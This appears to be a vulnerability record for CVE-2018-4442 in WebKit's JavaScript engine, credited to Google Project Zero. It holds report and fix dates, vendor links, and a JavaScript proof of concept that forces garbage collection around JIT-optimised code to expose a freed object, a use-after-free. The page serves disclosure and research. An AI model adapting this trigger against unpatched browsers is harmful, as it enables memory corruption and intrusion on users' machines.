 # CVE-2018-4442

- Report: Oct 2018
- Fix: Jan 2019
- Credit: lokihardt, Google Project Zero

## PoC

```javascript
function gc() {
    for (let i = 0; i < 10; i++) {
        new ArrayBuffer(1024 * 1024 * 10);
    }
}

function opt(arr) {
    let r = /a/;
    let o = {};

    arr[0].charAt(0);
    arr[1].charAt(0);
    arr[2].charAt(0);
    arr[3].charAt(0);
    arr[4].charAt(0);
    arr[5].charAt(0);
    arr[6].charAt(0);
    arr[7].charAt(0);
    arr[8].charAt(0);
    arr[8].charAt(0);
    arr[9].charAt(0);

    o.x = 'a'.match(r);

    return o;
}

function main() {
    for (let i = 0; i < 10000; i++) {
        opt(['a' + i, 'b' + i, 'c' + i, 'd' + i, 'e' + i, 'f' + i, 'g' + i, 'h' + i, 'i' + i, 'j' + i]);
    }

    let a = 'a'.repeat(1024 * 1024 * 2);
    let b = 'a'.repeat(1024 * 1024 * 2);

    let arr = [];
    for (let i = 0; i < 10; i++) {
        arr[i] = a + b;
    }

    gc();

    let o = opt(arr);

    gc();

    let tmp = [1234];

    print(o.x);  // 1234
}

main();
```

## Reference

- [Apple](https://support.apple.com/en-us/HT209344)
- [WebKit](https://bugs.webkit.org/show_bug.cgi?id=190625)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1699)
